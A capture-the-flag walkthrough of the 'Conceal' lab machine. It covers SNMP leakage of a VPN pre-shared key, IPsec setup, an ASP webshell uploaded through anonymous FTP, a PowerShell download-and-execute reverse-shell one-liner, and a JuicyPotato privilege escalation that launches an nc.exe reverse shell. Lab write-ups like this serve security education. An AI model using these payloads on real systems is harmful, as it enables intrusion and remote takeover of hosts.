



# Conceal
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.116 --min-rate 5000 -T4                          
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 19:23 BST
Nmap scan report for 10.10.10.116 (10.10.10.116)
Host is up.
All 65535 scanned ports on 10.10.10.116 (10.10.10.116) are in ignored states.
Not shown: 65535 filtered tcp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 65.19 seconds
```
```
└─$ sudo nmap -sU -p- 10.10.10.116 --min-rate 5000 -T4
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 19:25 BST
Nmap scan report for 10.10.10.116 (10.10.10.116)
Host is up (0.10s latency).
Not shown: 65533 open|filtered udp ports (no-response)
PORT    STATE SERVICE
161/udp open  snmp
500/udp open  isakmp

Nmap done: 1 IP address (1 host up) scanned in 26.78 seconds
```
```
└─$ sudo nmap -sU -p161,500 -sC -sV 10.10.10.116 --min-rate 5000 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 19:26 BST
Nmap scan report for 10.10.10.116 (10.10.10.116)
Host is up (0.10s latency).

PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server (public)
| snmp-sysdescr: Hardware: AMD64 Family 23 Model 49 Stepping 0 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 15063 Multiprocessor Free)
|_  System uptime: 7m13.71s (43371 timeticks)
| snmp-win32-software: 
|   Microsoft Visual C++ 2008 Redistributable - x64 9.0.30729.6161; 2021-03-17T15:16:36
|   Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.6161; 2021-03-17T15:16:36
|_  VMware Tools; 2021-03-17T15:16:36
| snmp-processes: 
|   1: 
|     Name: System Idle Process
|   4: 
|     Name: System
|   60: 
|     Name: svchost.exe
|     Path: C:\Windows\System32\
|     Params: -k LocalSystemNetworkRestricted
|   300: 
|     Name: smss.exe
|   332: 
|     Name: svchost.exe
|     Path: C:\Windows\system32\
|     Params: -k LocalServiceNoNetwork
|   396: 
|     Name: csrss.exe
|   408: 
|     Name: svchost.exe
|     Path: C:\Windows\system32\
|     Params: -k LocalServiceAndNoImpersonation
|   472: 
|     Name: svchost.exe
|     Path: C:\Windows\system32\
|     Params: -k LocalService
|   476: 
|     Name: wininit.exe
|   488: 
|     Name: csrss.exe
|   544: 
|     Name: winlogon.exe
|   616: 
|     Name: services.exe
|   624: 
|     Name: lsass.exe
|     Path: C:\Windows\system32\
|   712: 
|     Name: svchost.exe
|     Path: C:\Windows\system32\
|     Params: -k DcomLaunch
|   732: 
|     Name: fontdrvhost.exe
|   740: 
|     Name: fontdrvhost.exe
|   828: 
|     Name: svchost.exe
|     Path: C:\Windows\system32\
|     Params: -k RPCSS
|   936: 
|     Name: dwm.exe
|   956: 
|     Name: svchost.exe
|     Path: C:\Windows\system32\
|     Params: -k netsvcs
|   988: 
|     Name: svchost.exe
|     Path: C:\Windows\System32\
|     Params: -k LocalServiceNetworkRestricted
|   1052: 
|     Name: svchost.exe
|     Path: C:\Windows\System32\
|     Params: -k NetworkService
|   1116: 
|     Name: vmacthlp.exe
|     Path: C:\Program Files\VMware\VMware Tools\
|   1324: 
|     Name: svchost.exe
|     Path: C:\Windows\System32\
|     Params: -k LocalServiceNetworkRestricted
|   1376: 
|     Name: Memory Compression
|   1404: 
|     Name: svchost.exe
|     Path: C:\Windows\System32\
|     Params: -k LocalServiceNetworkRestricted
|   1412: 
|     Name: svchost.exe
|     Path: C:\Windows\system32\
|     Params: -k LocalServiceNetworkRestricted
|   1420: 
|     Name: svchost.exe
|     Path: C:\Windows\system32\
|     Params: -k LocalSystemNetworkRestricted
|   1544: 
|     Name: spoolsv.exe
|     Path: C:\Windows\System32\
|   1640: 
|     Name: svchost.exe
|     Path: C:\Windows\system32\
|     Params: -k appmodel
|   1724: 
|     Name: svchost.exe
|     Path: C:\Windows\system32\
|     Params: -k apphost
|   1740: 
|     Name: svchost.exe
|     Path: C:\Windows\System32\
|     Params: -k utcsvc
|   1780: 
|     Name: svchost.exe
|     Path: C:\Windows\system32\
|     Params: -k ftpsvc
|   1812: 
|     Name: LogonUI.exe
|     Params:  /flags:0x0 /state0:0xa39c8855 /state1:0x41c64e6d
|   1848: 
|     Name: SecurityHealthService.exe
|   1864: 
|     Name: snmp.exe
|     Path: C:\Windows\System32\
|   1888: 
|     Name: VGAuthService.exe
|     Path: C:\Program Files\VMware\VMware Tools\VMware VGAuth\
|   1908: 
|     Name: vmtoolsd.exe
|     Path: C:\Program Files\VMware\VMware Tools\
|   1928: 
|     Name: ManagementAgentHost.exe
|     Path: C:\Program Files\VMware\VMware Tools\VMware CAF\pme\bin\
|   1952: 
|     Name: svchost.exe
|     Path: C:\Windows\system32\
|     Params: -k iissvcs
|   1992: 
|     Name: MsMpEng.exe
|   2424: 
|     Name: svchost.exe
|     Path: C:\Windows\system32\
|     Params: -k NetworkServiceNetworkRestricted
|   2708: 
|     Name: SearchIndexer.exe
|     Path: C:\Windows\system32\
|     Params: /Embedding
|   2728: 
|     Name: svchost.exe
|   2816: 
|     Name: WmiPrvSE.exe
|     Path: C:\Windows\system32\wbem\
|   2964: 
|     Name: msdtc.exe
|     Path: C:\Windows\System32\
|   2992: 
|     Name: dllhost.exe
|     Path: C:\Windows\system32\
|     Params: /Processid:{02D4B3F1-FD88-11D1-960D-00805FC79235}
|   3484: 
|     Name: NisSrv.exe
|   3828: 
|     Name: svchost.exe
|     Path: C:\Windows\System32\
|     Params: -k smphost
|   3952: 
|     Name: WmiPrvSE.exe
|_    Path: C:\Windows\system32\wbem\
| snmp-interfaces: 
|   Software Loopback Interface 1\x00
|     IP address: 127.0.0.1  Netmask: 255.0.0.0
|     Type: softwareLoopback  Speed: 1 Gbps
|     Traffic stats: 0.00 Kb sent, 0.00 Kb received
|   vmxnet3 Ethernet Adapter\x00
|     IP address: 10.10.10.116  Netmask: 255.255.255.0
|     MAC address: 00:50:56:b9:14:2a (VMware)
|     Type: ethernetCsmacd  Speed: 4 Gbps
|     Traffic stats: 88.01 Kb sent, 19.06 Mb received
|   vmxnet3 Ethernet Adapter-WFP Native MAC Layer LightWeight Filter-0000\x00
|     MAC address: 00:50:56:b9:14:2a (VMware)
|     Type: ethernetCsmacd  Speed: 4 Gbps
|     Traffic stats: 88.01 Kb sent, 19.06 Mb received
|   vmxnet3 Ethernet Adapter-QoS Packet Scheduler-0000\x00
|     MAC address: 00:50:56:b9:14:2a (VMware)
|     Type: ethernetCsmacd  Speed: 4 Gbps
|     Traffic stats: 88.01 Kb sent, 19.06 Mb received
|   vmxnet3 Ethernet Adapter-WFP 802.3 MAC Layer LightWeight Filter-0000\x00
|     MAC address: 00:50:56:b9:14:2a (VMware)
|     Type: ethernetCsmacd  Speed: 4 Gbps
|_    Traffic stats: 88.01 Kb sent, 19.06 Mb received
| snmp-netstat: 
|   TCP  0.0.0.0:21           0.0.0.0:0
|   TCP  0.0.0.0:80           0.0.0.0:0
|   TCP  0.0.0.0:135          0.0.0.0:0
|   TCP  0.0.0.0:445          0.0.0.0:0
|   TCP  0.0.0.0:49664        0.0.0.0:0
|   TCP  0.0.0.0:49665        0.0.0.0:0
|   TCP  0.0.0.0:49666        0.0.0.0:0
|   TCP  0.0.0.0:49667        0.0.0.0:0
|   TCP  0.0.0.0:49668        0.0.0.0:0
|   TCP  0.0.0.0:49669        0.0.0.0:0
|   TCP  0.0.0.0:49670        0.0.0.0:0
|   TCP  10.10.10.116:139     0.0.0.0:0
|   UDP  0.0.0.0:161          *:*
|   UDP  0.0.0.0:500          *:*
|   UDP  0.0.0.0:4500         *:*
|   UDP  0.0.0.0:5050         *:*
|   UDP  0.0.0.0:5353         *:*
|   UDP  0.0.0.0:5355         *:*
|   UDP  10.10.10.116:137     *:*
|   UDP  10.10.10.116:138     *:*
|   UDP  10.10.10.116:1900    *:*
|   UDP  10.10.10.116:57836   *:*
|   UDP  127.0.0.1:1900       *:*
|_  UDP  127.0.0.1:57837      *:*
| snmp-win32-users: 
|   Administrator
|   DefaultAccount
|   Destitute
|_  Guest
| snmp-win32-services: 
|   AppX Deployment Service (AppXSVC)
|   Application Host Helper Service
|   Background Intelligent Transfer Service
|   Background Tasks Infrastructure Service
|   Base Filtering Engine
|   CNG Key Isolation
|   COM+ Event System
|   COM+ System Application
|   Client License Service (ClipSVC)
|   Connected Devices Platform Service
|   Connected User Experiences and Telemetry
|   CoreMessaging
|   Cryptographic Services
|   DCOM Server Process Launcher
|   DHCP Client
|   DNS Client
|   Data Usage
|   Device Setup Manager
|   Diagnostic Policy Service
|   Diagnostic Service Host
|   Diagnostic System Host
|   Distributed Link Tracking Client
|   Distributed Transaction Coordinator
|   Group Policy Client
|   IKE and AuthIP IPsec Keying Modules
|   IP Helper
|   IPsec Policy Agent
|   Local Session Manager
|   Microsoft FTP Service
|   Microsoft Storage Spaces SMP
|   Network Connection Broker
|   Network List Service
|   Network Location Awareness
|   Network Store Interface Service
|   Plug and Play
|   Power
|   Print Spooler
|   Program Compatibility Assistant Service
|   RPC Endpoint Mapper
|   Remote Procedure Call (RPC)
|   SNMP Service
|   SSDP Discovery
|   Security Accounts Manager
|   Security Center
|   Server
|   Shell Hardware Detection
|   State Repository Service
|   Superfetch
|   System Event Notification Service
|   System Events Broker
|   TCP/IP NetBIOS Helper
|   Task Scheduler
|   Themes
|   Time Broker
|   TokenBroker
|   User Manager
|   User Profile Service
|   VMware Alias Manager and Ticket Service
|   VMware CAF Management Agent Service
|   VMware Physical Disk Helper Service
|   VMware Tools
|   WinHTTP Web Proxy Auto-Discovery Service
|   Windows Audio
|   Windows Audio Endpoint Builder
|   Windows Connection Manager
|   Windows Defender Antivirus Network Inspection Service
|   Windows Defender Antivirus Service
|   Windows Defender Security Centre Service
|   Windows Driver Foundation - User-mode Driver Framework
|   Windows Event Log
|   Windows Firewall
|   Windows Font Cache Service
|   Windows Management Instrumentation
|   Windows Process Activation Service
|   Windows Push Notifications System Service
|   Windows Search
|   Windows Update
|   Workstation
|_  World Wide Web Publishing Service
500/udp open  isakmp  Microsoft Windows 8
| ike-version: 
|   vendor_id: Microsoft Windows 8
|   attributes: 
|     MS NT5 ISAKMPOAKLEY
|     RFC 3947 NAT-T
|     draft-ietf-ipsec-nat-t-ike-02\n
|     IKE FRAGMENTATION
|     MS-Negotiation Discovery Capable
|_    IKE CGA version 1
Service Info: Host: Conceal; OS: Windows 8; CPE: cpe:/o:microsoft:windows:8, cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 200.52 seconds

```
- `snmp`
```
└─$ snmpwalk -v 2c -c public 10.10.10.116             
SNMPv2-MIB::sysDescr.0 = STRING: Hardware: AMD64 Family 23 Model 49 Stepping 0 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 15063 Multiprocessor Free)
SNMPv2-MIB::sysObjectID.0 = OID: SNMPv2-SMI::enterprises.311.1.1.3.1.1
DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (16739) 0:02:47.39
SNMPv2-MIB::sysContact.0 = STRING: IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43
SNMPv2-MIB::sysName.0 = STRING: Conceal
...
```
## Foothold/User
- We have an interesting entry `STRING: IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43`
  - Cracking it results in: `	Dudecake1!`

 

- We also saw port `500`
  - https://book.hacktricks.xyz/network-services-pentesting/ipsec-ike-vpn-pentesting#finding-a-valid-transformation

```
└─$ ike-scan -M 10.10.10.116                                
Starting ike-scan 1.9.5 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.10.116    Main Mode Handshake returned
        HDR=(CKY-R=890d2a52350b91e4)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration(4)=0x00007080)
        VID=1e2b516905991c7d7c96fcbfb587e46100000009 (Windows-8)
        VID=4a131c81070358455c5728f20e95452f (RFC 3947 NAT-T)
        VID=90cb80913ebb696e086381b5ec427b1f (draft-ietf-ipsec-nat-t-ike-02\n)
        VID=4048b7d56ebce88525e7de7f00d6c2d3 (IKE Fragmentation)
        VID=fb1de3cdf341b7ea16b7e5be0855f120 (MS-Negotiation Discovery Capable)
        VID=e3a5966a76379fe707228231e5ce8652 (IKE CGA version 1)

Ending ike-scan 1.9.5: 1 hosts scanned in 0.116 seconds (8.64 hosts/sec).  1 returned handshake; 0 returned notify
```

- Let's use `strongswan`
  - We need to edit `/etc/ipsec.conf` and `/etc/ipsec.secrets` to be able to connect
  - https://docs.strongswan.org/docs/5.9/config/strongswanConf.html
- `ipsec.conf`
  - Based on:
    - https://www.strongswan.org/testing/testresults/ikev1-stroke/net2net-psk/moon.ipsec.conf
    - https://www.linode.com/docs/guides/strongswan-vpn-server-install/
    - https://www.tecmint.com/setup-ipsec-vpn-with-strongswan-on-debian-ubuntu/
```
config setup
        charondebug="all"
        uniqueids=yes
conn conceal
        type=transport
        auto=start
        keyexchange=ikev1
        authby=secret
        left=10.10.16.4
        leftprotoport=tcp
        right=10.10.10.116
        rightprotoport=tcp
        ike=3des-sha1-modp1024!
        esp=3des-sha1!

```
- `ipsec.secrets`
```
# This file holds shared secrets or RSA private keys for authentication.

# RSA private key for this host, authenticating it to any other host
# which knows the public part.

%any : PSK "Dudecake1!"

```

- Now start `ipsec` as root
  - No errors so far
```
┌──(root㉿kali)-[/home/kali]
└─# ipsec start --nofork
Starting strongSwan 5.9.11 IPsec [starter]...
00[DMN] Starting IKE charon daemon (strongSwan 5.9.11, Linux 6.3.0-kali1-amd64, x86_64)
00[LIB] providers loaded by OpenSSL: default legacy
00[CFG] install DNS servers in '/etc/resolv.conf'
00[CFG] loading ca certificates from '/etc/ipsec.d/cacerts'
00[CFG] loading aa certificates from '/etc/ipsec.d/aacerts'
00[CFG] loading ocsp signer certificates from '/etc/ipsec.d/ocspcerts'
00[CFG] loading attribute certificates from '/etc/ipsec.d/acerts'
00[CFG] loading crls from '/etc/ipsec.d/crls'
00[CFG] loading secrets from '/etc/ipsec.secrets'
00[CFG]   loaded IKE secret for %any
00[LIB] loaded plugins: charon aesni aes rc2 sha2 sha1 md5 mgf1 random nonce x509 revocation constraints pubkey pkcs1 pkcs7 pkcs12 pgp dnskey sshkey pem openssl pkcs8 fips-prf gmp agent xcbc hmac kdf gcm drbg attr kernel-netlink resolve socket-default connmark stroke updown eap-mschapv2 xauth-generic counters
00[LIB] dropped capabilities, running as uid 0, gid 0
00[JOB] spawning 16 worker threads
charon (110363) started after 40 ms
09[CFG] received stroke: add connection 'conceal'
09[CFG] added configuration 'conceal'
09[CFG] received stroke: initiate 'conceal'
09[IKE] initiating Main Mode IKE_SA conceal[1] to 10.10.10.116
...
```

- Now let's `nmap` again
  - We have to perform `full TCP` scan
    - We can't perform `SYN` scan over VPN
  - We saw ports in `snmpwalk`
  - We can simply specify them in `nmap`
```
└─$ nmap -sC -sV -sT -p21,80,135,139,445 10.10.10.116 --min-rate 5000 -T4 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-19 19:01 BST
Nmap scan report for 10.10.10.116 (10.10.10.116)
Host is up (0.15s latency).

PORT    STATE SERVICE       VERSION
21/tcp  open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-09-19T18:00:45
|_  start_date: 2023-09-19T17:00:08
|_clock-skew: -39s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.26 seconds

```

- Web server


- `gobuster` and `feroxbuster`
```
└─$ gobuster dir -u http://10.10.10.116/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50  --no-error 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.116/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/09/19 19:09:29 Starting gobuster in directory enumeration mode
===============================================================
/upload               (Status: 301) [Size: 150] [--> http://10.10.10.116/upload/]
```
```
└─$ feroxbuster -u http://10.10.10.116 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -k    

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.116
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       98l      332w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        2l       10w      150c http://10.10.10.116/upload => http://10.10.10.116/upload/
200      GET      359l     2112w   178556c http://10.10.10.116/iisstart.png
200      GET       32l       54w      696c http://10.10.10.116/

```



- `ftp`
  - It's empty, but we can upload files
  - The `ftp` is pointed to `/upload` 
```
└─$ ftp anonymous@10.10.10.116                                                                                              
Connected to 10.10.10.116.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49674|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||49675|)
125 Data connection already open; Transfer starting.
100% |***********************************************************************************************************************************************************************************************|    19        2.54 KiB/s    --:-- ETA
226 Transfer complete.
19 bytes sent in 00:00 (0.08 KiB/s)
ftp> 
```



- Let's try `webshell`
  - The responses indicate that the it could be `asp`


- I'll try `fuzzdb-webshell/asp/cmd.asp ` from [webshells repo](https://github.com/tennc/webshell/tree/master)
  - ``
```
└─$ ftp anonymous@10.10.10.116
Connected to 10.10.10.116.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put cmd.asp
local: cmd.asp remote: cmd.asp
229 Entering Extended Passive Mode (|||49679|)
125 Data connection already open; Transfer starting.
100% |***********************************************************************************************************************************************************************************************|   970        2.65 MiB/s    --:-- ETA
226 Transfer complete.
970 bytes sent in 00:00 (4.23 KiB/s)
ftp> 

```



- Payload for revshell
  - `powershell "iex(New-Object Net.Webclient).downloadstring('http://10.10.16.4/shell.ps1')"`


## Root
- `whoami`
```
PS C:\admin_checks> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

```

- We have `SeImpersonatePrivilege`
  - Let's try `JuicyPotato`
  - On the first try we have a error `10038`
    - We need to try another `clsid`
    - https://ohpe.it/juicy-potato/CLSID/
```
PS C:\programdata> .\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c \programdata\nc.exe -e cmd.exe 10.10.16.4 7777" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
COM -> recv failed with error: 10038
PS C:\programdata> .\jp.exe -l 1337 -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}" -p c:\windows\system32\cmd.exe -a "/c \programdata\nc.exe -e cmd.exe 10.10.16.4 7777" -t *
Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
......
[+] authresult 0
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

```

